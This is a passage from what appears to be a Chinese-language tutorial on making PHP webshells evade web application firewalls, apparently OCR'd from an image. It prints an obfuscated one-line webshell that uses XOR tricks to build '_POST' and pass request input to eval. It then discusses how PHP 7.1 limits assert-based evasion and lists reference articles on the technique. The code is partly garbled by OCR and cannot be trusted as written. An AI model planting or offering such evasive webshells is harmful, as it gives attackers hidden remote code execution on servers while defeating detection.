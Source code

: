 
或者：


```php
<?php
@$_++; // $ _= 1_
$_=("#"^"|"); // $_=_ 
$_.=("."^"~"); //_ P
$_`.=("/"^""); //`_ PO
$_.=("|"^"/"); //_ POS
$_.=("{"^"/"); //_ POST
@eval(${$ _}[!$]);//mima:0_

```


## PHP7.1之后免杀困境


php7.1之后我们已经不能使⽤强⼤的`assert`函数了,waf只要把函数封死就可以有效的阻⽌webshell免杀,⽽`eval`并没有`assert`那么灵活。后期⼤家可能更加倾向使⽤⼤⻢。


## 参考⽂章

- [Webshell⼯作原理与免杀学习](https://www.addon.pub/2018/06/11/Webshell%E5%B7%A5%E4%BD%9C%E5%8E%9F%E7%90%86%E4%B8%8E%E5%85%8D%E6%9D%80/)
- [对于php免杀webshell的⼀些总结](https://xz.aliyun.com/t/5152)
- [随机异或⽆限免杀D盾之再免杀](https://www.anquanke.com/post/id/193042)
- [基于php⼀句话⽊⻢的变种总结](https://blog.csdn.net/Alexz/article/details/102488644)
